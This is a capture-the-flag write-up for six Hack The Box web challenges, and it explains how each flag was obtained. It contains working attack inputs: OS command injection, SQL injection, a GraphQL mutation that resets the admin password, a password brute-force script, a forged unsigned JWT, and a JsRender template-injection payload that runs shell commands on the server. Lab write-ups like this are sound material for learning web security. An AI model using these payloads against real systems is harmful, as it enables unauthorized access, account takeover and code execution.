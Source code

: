 # SOME WEB CHALLENGES WRITE UPS #

### 1. Trapped Source ###
- Read the soure code, we will find the secret PIN.<br/ >
```html
<script>
    window.CONFIG = window.CONFIG || {
        buildNumber: "v20190816",
        debug: false,
        modelName: "Valencia",
        correctPin: "8291",
    }
</script>
```
- Now that we got the pin, enter it to the safe-like thing, and get the flag.
**flag: HTB{V13w_50urc3_c4n_b3_u53ful!!!}**

### 2. Gunhead ###
#### Overview
![image](https://user-images.githubusercontent.com/109911533/227821590-4271f2e8-c0a8-4757-94e1-6cc0ca2a5dc6.png)<br />

- Navigate to the console, we will see all the command that we can execute on the website.

![image](https://user-images.githubusercontent.com/109911533/227823546-897b8e3f-5d65-45ad-a09e-a3db03749015.png)<br />

- Given a source code of the website, we can read through all of them, which we would stumble over this.<br />

![image](https://user-images.githubusercontent.com/109911533/227823815-1f86dd9f-68ac-4670-8c6f-ab0292ec1370.png)

- The ```'ping -c 3 '.$this->ip``` does a ping to the <ip>, which is our data. Without any filter, this could potential lead to a OS command injection.<br />
- Using ```;``` to end the previous command, we can now inject any command for the server to execute.
```/ping 127.0.0.1; ls -la /```<br />
- This command should return every file in the directory
  
 ![image](https://user-images.githubusercontent.com/109911533/227825146-967bdaca-a176-41bc-bf75-a6386e6daf02.png)<br />
  
- Now we just need to ```;cat /flag.txt``` to receive the flag.<br />
**flag: HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}**
    
### 3. Drobots ###
- This challenge is pretty simple, if you've learned about SQLi, then you should notice there's a SQLi vulnerability here, in the database.py file.<br />
    
![image](https://user-images.githubusercontent.com/109911533/228113328-5b909aa5-01fd-436b-b525-f4d472d2cbfd.png)<br />
    
- Using ```admin" -- ``` should do the trick.<br />
**flag: HTB{p4r4m3t3r1z4t10n_1s_1mp0rt4nt!!!}**

### 4. Passman ###
- This challenge is an IDOR vunerability chall.<br />
- Reading through all the file i noticed that in the ```GraphqlHelper.js```, all the function forrmat are the same. And also, there's a function called UpdatePassword, maybe we can do something with it??<br />
    
![image](https://user-images.githubusercontent.com/109911533/228114651-ba3ec6a1-dacf-46b1-b3ff-063c08b6a13f.png)<br />

- Using BurpSuite, we can first use the addphrase function in order to get the format of the query. Then, edit it using the UpdatePassword variables, turning it into an UpdatePassword function, which should allow us to change the admin password.<br />

![image](https://user-images.githubusercontent.com/109911533/228115190-6f67bc26-fa02-44d2-8e6d-c8d700e8dbf5.png)<br />

- Change the query into this.<br />
```{
  "query": "mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password){ message } }",
  "variables": {
    "username": "admin",
    "password": "123"
  }
```
- This should change the admin password to 123, and we can verify it with the response.<br />

![image](https://user-images.githubusercontent.com/109911533/228115508-cdd021d3-3795-43b9-94f7-27d46c90a0dd.png)<br />
 
- Login as admin, we get the flag.<br />
**flag: HTB{1d0r5_4r3_s1mpl3_4nd_1mp4ctful!!}**
    
 ### 5. Orbital ###
- For this challenge, i think there are more simple ways to do it than i did, but i cant think of anything so i chose to bruteforce the password.<br />
- The password is MD5 hashed so at first i think i need to hash all the password to MD5, but no, the web page will take my password input, hash it, and compare it to the original password. I chose ```rockyou.txt``` for this one since it HacktheBox and ```rockyou.txt``` contains the most common passwords.<br />
- Here is the scripts.<br />
```py
import requests

url = "http://68.183.37.122:32168/api/login"

with open("rockyou.txt", errors="ignore") as file:
    passwords = [l.strip() for l in file.readlines()]

    for password in passwords:
        print('Testing password: "{}"'.format(password))

        data = {'username': 'admin', 'password': password}
        response = requests.post(url, json = data)

        if "Invalid" not in response.text:
            print(response.text)
            print("Password found: {}".format(password))
            break
```
- Running it for some times, should return the password, which is ```ichliebedich```.Now we login as admin.<br />

- Now we need to get the flag file. But the flag file is not in the ```flag.txt``` or anything else, but its in this file.<br />
![image](https://user-images.githubusercontent.com/109911533/228118532-d683962a-1036-48bf-be30-20d1a9f0b2a1.png)<br />
    
- Reading through all the source code again, you notice in the ```routes.py``` there's a funtion ```export```, which export a variables ```{communicationName}``` which is a variables that we can change, so maybe path traversal exploit?<br />
    
![image](https://user-images.githubusercontent.com/109911533/228118879-7114b43f-6767-4a27-bde5-aae25c2b9e7f.png)<br />

- Using burpsuite, we should be able to retrieve the flag.
    
![image](https://user-images.githubusercontent.com/109911533/228119016-788d73bd-521e-4d94-898a-b63baccbcdd8.png)<br />
    
- P/s: I think this chall was supposed to be time based SQLi, not brute forcing random sh*t xDDD, but oh well...
    
**flag: HTB{T1m3_b4$3d_$ql1_4r3_fun!!!}**

### 5. Didactic Octo Paddles ###
- This challenge is about JWT token and Node.js SSTI.<br />
- First, looking through the given source code, we can see there's a route called ```/admin``` which may give us access to the admin page.<br />
- Register and Login, you should see a session cookie which is a JWT Token, decode it return something like this.<br />
    
 ![image](https://user-images.githubusercontent.com/109911533/228418179-fa77d3b2-bb6c-476d-86bd-3b2636ad2715.png)

- Now in the file ```AdminMiddleware.js```, we can see its checking for the ```alg``` and ```user.id```. If success, it'll return us the admin page.<br />
- If the ```alg==HS256```, it will return us as user, whether ```alg==none``` will redirect us back to the login page. So to bypass this, we can you a varieties form of ```none```, like ```None, nOne, NoNe, NONE,...```. This should bypass the ```alg``` checking function.<br />
- Now, for the ```user.id```, its very common for these type of challenges that the admin ```id``` will be ```1```, since admin is the first guy to create and added to the database. So now, we just need to change ```alg:NONE``` and ```id:1```. This should redirect us to the admin page.(Remember after changing the two variables, delete the last part of the payload).<br />
- The JWT token should now be<br />
```eyJhbGciOiJOb25lIiwidHlwIjoiSldUIn0.eyJpZCI6MSwiaWF0IjoxNjc5NTYwOTYwLCJleHAiOjE2Nzk1NjQ1NjB9.```<br />
    
![image](https://user-images.githubusercontent.com/109911533/228421571-c3b1e49a-96b8-4311-a1e3-162a2873d07b.png)<br />

- Now we should be able to see the admin page, here i login as user ```a```<br />
![image](https://user-images.githubusercontent.com/109911533/228420867-6ab8aec0-d8c8-476f-8154-ce2737f5b27a.png)

- So, now what do we do to get the flag? If you read the code about the ```/admin``` route, you will see they are using ```jsrender.templates```. If you read the document about it, you'll know that you can pass in template expressions and it will process them, then output it to the screen. Here the ```jsrender.templates``` is using the variable ```username```. So we can confirm that there's a JsRender Node.js SSTI vulnerability in ```username```.<br />
- Reading about it, i found this playload that we can use ```{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()")()}}```<br />
- Now we take that payload, register it as a user, and go to the admin page to get the flag.<br />
    
![image](https://user-images.githubusercontent.com/109911533/228422188-d4093b4f-3092-455e-b388-70d78b538700.png)<br />


    
 




